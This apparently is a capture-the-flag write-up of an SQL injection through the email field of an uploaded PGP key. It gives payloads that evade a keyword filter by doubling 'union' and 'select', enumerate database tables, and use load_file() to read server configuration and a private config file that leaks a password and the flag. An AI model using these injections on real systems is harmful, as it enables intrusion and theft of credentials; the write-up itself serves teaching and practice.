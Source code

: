We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentily every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

The main page says the Prof. likes snakes, which implies the website is written in python, so maybe we can inject a command.
We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

To verify I can read files I started with '/bin/ls' which is always there

```email = "A' UNunionION SELselectECT ()open('/bin/ls').read().encode("hex"),1,1,1,1 #"```

That didn't work... and after some time I reached the conclusion the website is written in PERL!

So to get the configuration we have the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

Which contains the name of our index page, to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



